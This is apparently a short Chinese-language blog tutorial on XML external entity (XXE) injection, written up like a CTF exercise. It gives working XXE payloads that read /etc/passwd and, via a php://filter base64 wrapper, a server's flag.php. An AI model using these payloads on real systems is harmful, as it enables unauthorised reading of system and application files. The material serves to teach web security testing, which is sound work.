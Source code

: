 ```yaml
---
title: XML外部实体注入 (XXE漏洞)
date: '2022/1/23 23:15:01'
categories:
  - - WEB安全
    - 注入
    - XXE
description: XXE漏洞的利用场景和流程
abbrlink: bc3fe178
tags:
---
```


# XML外部实体注入 (XXE漏洞)

## XXE简介
xxe漏洞就是xml外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害

## 利用场景和流程
抓包发现请求包里面直接存在
```xml
<user>
    <username>
        1
    </username>
    <password>
        1
    </password>
</user>

```

测试能否读取文件
```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///etc/passwd">
]>
<user>
    <username>
        &test;
    </username>
    <password>
        123
    </password>
</user>
```

然后读取flag.php
```xml
<!DOCTYPE ANY [
    <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">
]>
<user>
    <username>
        &admin;
    </username>
    <password>
        123
    </password>
</user>
```